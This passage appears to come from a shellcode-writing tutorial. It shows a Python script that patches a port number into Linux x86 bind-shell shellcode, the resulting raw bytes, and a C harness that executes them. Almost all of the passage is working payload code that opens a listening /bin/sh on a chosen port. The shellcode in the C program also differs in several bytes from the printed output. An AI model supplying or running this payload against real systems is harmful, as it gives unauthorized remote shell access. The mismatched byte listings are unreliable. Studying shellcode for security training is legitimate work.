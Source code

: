 ```python

# Check if a port is specified
if len(sys.argv) < 2:
    print ('Usage: python {name} [port_to_bind]'.format(name = sys.argv[0]))
    print ('Example: python {name} 2222'.format(name = sys.argv[0]))
    exit(1)

# Convert the port type from "string" to "hexadecimal" format
port = hex(socket.htons(int(sys.argv[1])))

# Replace the port number
shellcode = shellcode.replace('\\x11\\x5c', '\\x{0}\\x{1}'.format(port[4:6],port[2:4]))

# Print the shellcode
print(shellcode)
```

This script will give us the following result:
```console
kali@kali:/tmp$ chmod +x modify_bind_shell.py 
kali@kali:/tmp$ ./modify_bind_shell.py 2222

\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x50\x50\x66\x68\x08\xae\x66\x6a\x02\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\xcd\x80\x31\xff\x89\xc7\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\xfe\xc1\xe2\xf2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80
```

In order to test the result, we can now used a C program which will execute our shellcode.

The C program can be found below:
```c
#include <stdio.h>
#include <string.h>

// the shellcode is stored here
unsigned char code[] = \
"\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x50\x50\x66\x68\x08\xae\x66\x6a\x02\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc6\xb1\x03\x31\xc0\xb0\x3f\x89\xf3\xfe\xc9\xcd\x80\xfe\xc1\xe2\xf2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

int main()
{
	// print the length of the shellcode
	printf("Shellcode Length:  %d\n", strlen(code));
	
	// convert shellcode to a function
	int (*ret)() = (int(*)())code;

	// execute the shellcode
	ret();

}
```
